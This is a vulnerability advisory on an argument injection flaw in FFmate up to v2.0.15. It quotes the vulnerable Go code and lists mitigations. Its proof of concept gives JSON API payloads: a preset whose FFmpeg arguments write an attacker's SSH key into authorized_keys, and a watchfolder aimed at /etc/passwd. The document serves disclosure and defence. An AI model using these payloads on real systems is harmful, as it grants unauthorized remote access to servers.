





# Argument Injection Vulnerability in FFmate

> **Software and Affected Version:** [FFmate](https://github.com/welovemedia/ffmate) ≤ v2.0.15

## Vulnerability Files

-   `/internal/service/ffmpeg/ffmpeg.go`

## Description

An argument injection vulnerability exists in [FFmate](https://github.com/welovemedia/ffmate) ≤ v2.0.15 at the FFmpeg command execution functionality, where user-controlled command parameters are passed directly to the FFmpeg binary without sufficient validation or sanitization. While the application attempts to prevent command injection through shell escaping, attackers can still manipulate FFmpeg's extensive argument options to perform unintended operations. Specifically, by crafting malicious preset commands that leverage FFmpeg's metadata writing capabilities, attackers can construct text files with arbitrary content and write them to arbitrary filesystem locations accessible to the application process. This enables attackers to overwrite critical system files, inject SSH authorized keys for remote access, modify application configuration files, and potentially achieve full remote code execution. Mitigations include implementing strict allowlists for permitted FFmpeg arguments and output formats, validating and restricting output file paths to designated safe directories, removing dangerous FFmpeg capabilities such as arbitrary metadata file writing, and conducting thorough input validation on all user-supplied preset commands.

## Code Analysis

In `/internal/service/ffmpeg/ffmpeg.go`:

```go
func (s *Service) Execute(request *ExecutionRequest) error {
	commands := strings.Split(request.Command, "&&")
	for index, cmdStr := range commands {
		cmdStr = strings.TrimSpace(cmdStr)
		var args []string
		var err error
		if runtime.GOOS == "windows" {
			args, err = s.shellwordsUnicodeSafe(cmdStr)
		} else {
			args, err = shellwords.NewParser().Parse(cmdStr)
		}
		if err != nil {
			return fmt.Errorf("FFMPEG - failed to parse command: %v", err)
		}
		args = append(args, "-progress", "pipe:2")
		if !strings.Contains(cmdStr, "-stats_period") {
			args = append(args, "-stats_period", "1")
		}
		var cmd *exec.Cmd
		if index > 0 {
			cmd = exec.CommandContext(request.Ctx, "", args...)
		} else {
			cmd = exec.CommandContext(request.Ctx, cfg.GetString("ffmate.ffmpeg"), args...)
		}

		var stderrBuf bytes.Buffer
		var duration float64

		stderrPipe, err := cmd.StderrPipe()
		if err != nil {
			return fmt.Errorf("FFMPEG - failed to get stderr pipe: %v", err)
		}

		if err := cmd.Start(); err != nil {
			return fmt.Errorf("FFMPEG - failed to start ffmpeg: %v", err)
		}

		reDuration := regexp.MustCompile(`Duration: (\d+:\d+:\d+\.\d+)`)

		scanner := bufio.NewScanner(stderrPipe)
		for scanner.Scan() {
			line := scanner.Text()
			stderrBuf.WriteString(line + "\n")
			if match := reDuration.FindStringSubmatch(line); match != nil {
				durationStr := match[1]
				duration = s.parseDuration(durationStr)
			}
			if progress := s.parseFFmpegOutput(line, duration); progress != nil {
				p := math.Min(100, math.Round((progress.Time/duration*100)*100)/100)
				debug.FFmpeg.Debug("progress: %f %+v (uuid: %s)", p, progress, request.Task.UUID)
				remainingTime, err := progress.EstimateRemainingTime(duration)
				if err != nil {
					debug.FFmpeg.Debug("failed to estimate remaining time: %v", err)
					remainingTime = -1
				}
				request.UpdateFunc(p, remainingTime)
			}
		}
		if err := scanner.Err(); err != nil {
			debug.FFmpeg.Error("FFMPEG - error reading progress: %v\n", err)
		}

		err = cmd.Wait()
		stderr := stderrBuf.String()
		if err != nil {
			return errors.New(stderr)
		}
	}
	return nil
}
```

Although the developers have taken precautions against command injection, the parameters passed to ffmpeg are completely controllable, allowing attackers to manipulate ffmpeg to perform unexpected behaviors.

## Proof of Concept

Create a preset using `/api/v1/presets` with the following payload, the crafted command will write the attacker's SSH public key to `authorized_keys` file. Remember the returned uuid:

```json
{
    "name": "Write SSH Key",
    "description": "Write SSH Key to RCE",
    "command": "-y -f lavfi -i color=c=red:s=2x2:d=1 -metadata 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBbHVX1A4JZNOZ4cXyg7c5hXmRmRuUHFrFzpzBV9FjR0 type'='poc' -codec copy -f ffmetadata /home/user/.ssh/authorized_keys",
    "priority": 0,
    "outputFile": "",
    "preProcessing": { "scriptPath": "", "sidecarPath": "", "importSidecar": false },
    "postProcessing": { "scriptPath": "", "sidecarPath": "" },
    "webhooks": [],
    "globalPresetName": "Convert to MP4"
}
```



Create a watchfolder `/etc/passwd` using `/api/v1/watchfolders` with the following payload. Remember the returned uuid. Although the target is not a folder, the server does not deny and keeps creating tasks with `/etc/passwd` as input:

```json
{
    "name": "Test",
    "description": "Test",
    "interval": 5,
    "growthChecks": 3,
    "preset": "94b97fec-3e19-4e5f-965c-03a52cbd0d16",
    "path": "/etc/passwd",
    "suspended": false,
    "filter": { "extensions": { "include": [], "exclude": [] } }
}
```



Remove the watchfolder created above to stop creating tasks using `/api/v1/watchfolders/<uuid>` with method delete:



Request `/api/v1/tasks` to confirm that the task was executed:



Log in using SSH private key to confirm that the file was written successfully:


